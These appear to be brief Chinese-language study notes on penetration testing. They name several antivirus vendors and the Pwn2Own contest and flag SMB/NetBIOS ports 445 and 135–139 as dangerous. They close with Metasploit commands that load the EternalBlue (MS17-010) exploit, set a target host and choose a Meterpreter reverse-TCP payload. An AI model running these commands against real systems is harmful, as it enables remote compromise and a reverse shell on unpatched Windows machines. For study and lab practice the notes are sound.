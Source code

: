 杀毒软件：

卡巴基斯（俄），Dr.Web大蜘蛛（俄），Norton诺顿，ESET，小红伞（德），avast，



Pwn2own大赛





445、135、137、138、139端口很危险



use exploit/windows/smb/ms17_010_eternalblue

show options

set rhost 192.168.0.102

windows/x64/meterpreter/reverse_tcp